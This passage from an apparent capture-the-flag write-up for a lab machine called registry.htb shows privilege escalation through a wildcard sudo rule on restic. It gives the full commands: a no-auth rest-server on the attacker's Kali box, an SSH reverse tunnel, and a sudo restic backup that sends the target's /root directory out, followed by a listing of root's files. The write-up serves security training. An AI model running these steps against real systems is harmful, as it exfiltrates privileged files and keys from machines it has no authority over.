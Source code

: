 Based on docs, it seems that this was using a REST repository to host the files. Here's a Git Repository to explain what a rest server is:

{% embed url="https://github.com/restic/rest-server" %}

Since the `sudo` privilege had a wildcard in it, the exploit was to create a basic rest-server and backup the entirety of the machine onto it. We can host the rest-server on our Kali machine and port forward it to this machine to make it accessible.

First, we can start `rest-server` on our machine and do the port forwarding:

```bash
$ ./rest-server --path ../ --no-auth
Data directory: ../
Authentication disabled
Private repositories disabled
start server on :8000
# in separate terminal
ssh -i id_rsa -R 8000:127.0.0.1:8000 bolt@registry.htb
```

Then we need to create a repository on our rest-server for `restic` and backup the `/root` directory there:

```bash
www-data@registry:~/html$ restic init -r rest:http://localhost:8000
restic init -r rest:http://localhost:8000
tenter password for new repository: est

enter password again: test

created restic repository 6ad1468cd0 at rest:http://localhost:8000
www-data@registry:~/html$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ /root
</restic backup -r rest:http://127.0.0.1:8000/ /root
enter password for repository: test

password is correct
found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
scan [/root]
scanned 10 directories, 13 files in 0:00
[0:00] 100.00%  27.856 KiB / 27.856 KiB  23 / 23 items  0 errors  ETA 0:00 
duration: 0:00
snapshot beb14cb0 saved
```

Then we can access this repo from our machine easily.

```bash
$ restic -r . ls latest
enter password for repository: 
repository 6ad1468c opened (repository version 1) successfully, password is correct
created new cache in /home/kali/.cache/restic
snapshot beb14cb0 of [/root] filtered by [] at 2023-03-08 12:21:08.690059942 +0000 UTC):
/root
/root/.bash_history
/root/.bashrc
/root/.cache
/root/.cache/motd.legal-displayed
/root/.config
/root/.config/composer
/root/.config/composer/keys.dev.pub
/root/.config/composer/keys.tags.pub
/root/.gnupg
/root/.gnupg/private-keys-v1.d
/root/.local
/root/.local/share
/root/.local/share/nano
/root/.profile
```